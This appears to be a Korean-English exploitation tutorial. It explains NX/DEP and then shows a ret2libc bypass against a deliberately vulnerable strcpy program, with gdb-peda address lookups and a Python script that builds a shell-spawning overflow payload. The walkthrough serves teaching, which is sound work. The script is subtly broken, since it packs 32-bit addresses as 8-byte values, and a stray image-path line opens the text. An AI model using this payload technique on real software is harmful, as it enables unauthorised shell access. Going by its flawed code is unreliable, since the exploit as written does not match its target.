 # NX
Also known as Data Execution Prevention (DEP), this protection marks writable regions of memory as non-executable. This prevents the processor from executing in these marked regions of memory.

If we look at the memory map of a program compiled with NX protection, the stack and heap are typically marked non-executable.

In the following diagrams, we will be introducing a new indicator colour for the memory regions to denote 'writable and non-executable' mapped regions. Firstly, the stack before the read occurs looks like this:

When we perform the same attack, the buffer is overrun and the saved pointers are overwritten once again.

After the function returns, the program will set the instruction pointer to 0xbfff0000 and attempt to execute the instructions at that address. However, since the region of memory mapped at that address has no execution permissions, the program will crash.

Thus, the attacker's exploit is thwarted.

# Vulnerable Program
```
#include <stdio.h>
#include <string.h>

void exploitme(char* input)
{
  char buf[32];
  strcpy(buf, input);
  puts(buf);
}

int main(int argc, char* argv[])
{
  if ( argc < 2 ) return -1;

  exploitme(argv[1]);

  return 0;
}
```

# Bypassing NX with Ret2Libc


![Fig 1. stack][classic1]

## 버퍼의 크기
## return address 위치 찾기
## system() 의 주소
```
gdb-peda$ p system
$1 = {<text variable, no debug info>} 0xb7e51b40 <__libc_system>

gdb-peda$ x/s 0xb7e51b40
0xb7e51b40 <__libc_system>:	"\203\354\f\213D$\020\350\061h\016"
```
## exit() 주소
system() 함수가 return되고 난 후 jump할 위치를 지정해야 한다.
사실 system("/bin/sh")가 호출되는 순간 이미 exploit에 성공했으므로 이 부분은 적당히 Fake 값으로 대충 "AAAA" 로 채워넣어도 무방하다.
하지만 차이점이 있다면 쉘 획득 후 작업을 종료하고 나갈 때 Error가 발생한다.
이 부분까지 깔끔하게 처리하고 싶다면 exit()의 주소를 찾은 후 이것을 호출하게 하면 마치 정상적으로 종료되는 것처럼 보이게 할 수 있다.
```
gdb-peda$ p exit
$2 = {<text variable, no debug info>} 0xb7e457f0 <__GI_exit>

gdb-peda$ x/s 0xb7e457f0
0xb7e457f0 <__GI_exit>:	"\350\204+\017"
```
이렇게 얻은 exit()의 주소는 `0xb7e457f0`이다.

## /bin/sh
system()의 인자로 전달할 브레이크 포인트 걸어놓고 실행한 상태에서
```
gdb-peda$ find "/bin/sh"
Searching for '/bin/sh' in: None ranges
Found 1 results, display max 1 items:
libc : 0xb7f748c8 ("/bin/sh")
```

## Exploit code
```
from struct import *

system_addr = 0xb7e51b40 
binsh_addr  = 0xb7f748c8
exit_addr   = 0xb7e457f0

payload = "A" * 32                           # buf

payload += "A" * 4                           # ebx

payload += pack("<Q", system_addr)           # ret addr : system()

#payload += "B" * 4                          # return of system(), fake value (don't care error msg)
payload += pack("<Q", exit_addr)             # to avoid closing error, use exit() func addr

payload += pack("<Q", binsh_addr)            # /bin/sh addr

f = open("in.txt", "w")
f.write(payload)
```



[classic1]: ./nxstack_view.png
